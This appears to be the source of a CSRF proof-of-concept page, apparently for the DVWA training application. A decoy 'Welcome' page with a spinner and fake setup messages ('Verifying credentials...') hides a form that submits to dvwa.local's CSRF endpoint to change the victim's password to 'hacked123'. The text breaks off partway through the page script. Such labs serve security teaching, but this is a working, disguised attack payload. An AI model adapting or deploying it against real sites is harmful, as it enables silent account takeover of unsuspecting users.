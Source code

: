 
```html
<!DOCTYPE html>
<html>
<head>
  <title>Welcome</title>
  <style>
    body {
      font-family: Arial, sans-serif;
      text-align: center;
      margin-top: 50px;
    }
    .container {
      max-width: 600px;
      margin: 0 auto;
      padding: 20px;
      border: 1px solid #eee;
      border-radius: 10px;
      box-shadow: 0 0 10px rgba(0,0,0,0.1);
    }
    .loader {
      border: 5px solid #f3f3f3;
      border-top: 5px solid #3498db;
      border-radius: 50%;
      width: 50px;
      height: 50px;
      animation: spin 2s linear infinite;
      margin: 20px auto;
    }
    @keyframes spin {
      0% { transform: rotate(0deg); }
      100% { transform: rotate(360deg); }
    }
  </style>
</head>
<body>
  <div class="container">
    <h1>Hello there!</h1>
    <p>We are setting something up for you.</p>
    <p>Your content will be ready in just a moment...</p>
    
    <div class="loader"></div>
    
    <!-- Hidden form for CSRF attack -->
    <form id="csrf-form" action="http://dvwa.local/vulnerabilities/csrf/" method="GET" style="display:none">
      <input type="hidden" name="password_new" value="hacked123">
      <input type="hidden" name="password_conf" value="hacked123">
      <input type="hidden" name="Change" value="Change">
    </form>

    <p>Please don't close this window while we complete the setup.</p>
    <p id="status-message">Initializing...</p>
  </div>

  <script>
    // Update status message
    let statusElement = document.getElementById("status-message");
    let messages = [
      "Initializing...",
      "Connecting to server...",
      "Verifying credentials...",
      "Almost there...",
      "Setup complete!"
```